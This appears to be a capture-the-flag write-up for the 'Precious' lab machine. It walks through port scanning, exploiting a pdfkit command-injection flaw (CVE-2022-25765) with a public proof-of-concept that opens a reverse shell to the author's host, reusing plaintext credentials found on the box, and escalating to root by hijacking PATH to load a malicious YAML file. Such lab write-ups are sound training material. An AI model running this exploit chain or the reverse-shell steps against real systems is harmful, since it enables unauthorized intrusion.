

# Precious

# Enumeration

## Nmap

There are two open ports :

- 22 for SSH
- 80 for HTTP

```bash
rustscan -a 10.10.11.189 -- -A
```

```bash
PORT   STATE SERVICE REASON         VERSION

22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 84:5e:13:a8:e3:1e:20:66:1d:23:55:50:f6:30:47:d2 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDEAPxqUubE88njHItE+mjeWJXOLu5reIBmQHCYh2ETYO5zatgel+LjcYdgaa4KLFyw8CfDbRL9swlmGTaf4iUbao4jD73HV9/Vrnby7zP04OH3U/wVbAKbPJrjnva/czuuV6uNz4SVA3qk0bp6wOrxQFzCn5OvY3FTcceH1jrjrJmUKpGZJBZZO6cp0HkZWs/eQi8F7anVoMDKiiuP0VX28q/yR1AFB4vR5ej8iV/X73z3GOs3ZckQMhOiBmu1FF77c7VW1zqln480/AbvHJDULtRdZ5xrYH1nFynnPi6+VU/PIfVMpHbYu7t0mEFeI5HxMPNUvtYRRDC14jEtH6RpZxd7PhwYiBctiybZbonM5UP0lP85OuMMPcSMll65+8hzMMY2aejjHTYqgzd7M6HxcEMrJW7n7s5eCJqMoUXkL8RSBEQSmMUV8iWzHW0XkVUfYT5Ko6Xsnb+DiiLvFNUlFwO6hWz2WG8rlZ3voQ/gv8BLVCU1ziaVGerd61PODck=
|   256 a2:ef:7b:96:65:ce:41:61:c4:67:ee:4e:96:c7:c8:92 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFScv6lLa14Uczimjt1W7qyH6OvXIyJGrznL1JXzgVFdABwi/oWWxUzEvwP5OMki1SW9QKX7kKVznWgFNOp815Y=
|   256 33:05:3d:cd:7a:b7:98:45:82:39:e7:ae:3c:91:a6:58 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIH+JGiTFGOgn/iJUoLhZeybUvKeADIlm0fHnP/oZ66Qb

80/tcp open  http    syn-ack ttl 63 nginx 1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0

```

We also get the domain name. So I add it to the /etc/hosts file.

```bash
echo "10.10.11.189 precious.htb" | sudo tee -a /etc/hosts
```

## HTTP(80)

The website functionality is to convert URL to PDF files. I put and url that pointed to a python server that I launched.



The url is converted into a pdf that contains the files and directories in of my python server.


### CVE-2022-25765 on pdfkit v0.8.6

With **`exiftool`** we can see details on the PDF. And we see that It’s generated by **`pdfkit v0.8.6`** which is vulnerable to command injection.

A POC can be found here : https://github.com/nikn0laty/PDFkit-CMD-Injection-CVE-2022-25765


# Shell as ruby

Execute the payload on the first terminal.

```bash
python3 CVE-2022-25765.py -t http://precious.htb -a 10.10.14.28 -p 4444
```


Now I have a shell as ruby.


# Shell as henry

Henry’s credentials found in ruby’s home directory.

```bash
henry:Q3c1AqGHtoI0aXAYFH
```


I got user flag after connecting to the target via SSH using henry’s login credentials


# Shell as root

I check if henry has sudo privileges. And It seems that he can run a ruby binary as root without a password.


After checking the code, the function **`list_from_file`** loads and read a file named **`dependencies.yml`** without an absolute path. So if we create our own file and add it to the PATH it’ll will be the on executed by the program.


After a few minutes of googling i found a way to do a reverse shell in ruby with a `yml` file here : https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/ruby-privilege-escalation/

I added the **`/tmp`** directory in the PATH with this command

```bash
PATH=/tmp:$PATH
```


Next I created the file and added the payload.


I set a listener and boom. Reverse shell as root.

